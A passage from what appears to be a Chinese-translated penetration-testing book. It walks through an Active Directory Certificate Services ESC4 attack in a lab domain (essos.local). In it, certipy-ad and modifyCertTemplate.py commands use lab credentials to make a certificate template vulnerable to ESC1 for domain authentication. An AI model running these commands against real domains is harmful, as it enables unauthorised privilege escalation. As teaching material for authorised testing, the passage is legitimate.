 ```
certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -vulnerable -stdout
```

以下命令的输出如下：

![图 8.28 – khal.drogo 在 ESC4 上具有过多权限](img/B18964_08_28.jpg)

图 8.28 – khal.drogo 在 ESC4 上具有过多权限

接下来的步骤是通过将 **ENROLLEE_SUPPLIES_SUBJECT** 属性添加到模板中，使模板容易受到 ESC1 攻击。为了更好地理解这个攻击，我们将借助 **modifyCertTemplate** 工具，逐步操作。

首先，我们将检查证书的 ACL 和属性：

```
python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -raw
python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -get-acl
```

结果，我们将看到一份属性列表，并确认 **khal.drogo** 对该模板拥有 **写入** 权限。接下来，我们将配置模板，使其满足 ESC1 攻击的要求：

1.  我们将使用以下命令禁用“经理审批”要求：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value 0 -property mspki-enrollment-flag
    ```

1.  禁用“授权签名”要求：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value 0 -property mspki-ra-signature
    ```

1.  在请求中启用 SAN 规范：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag
    ```

1.  添加一个允许域认证的 EKU：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -property pkiExtendedKeyUsage -add "Client Authentication"
    ```

1.  应用“应用程序策略”以允许域认证：

    ```
    python3 modifyCertTemplate.py essos.local/khal.drogo:horse -template esc4 -dc-ip 192.168.56.12 -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy
    ```
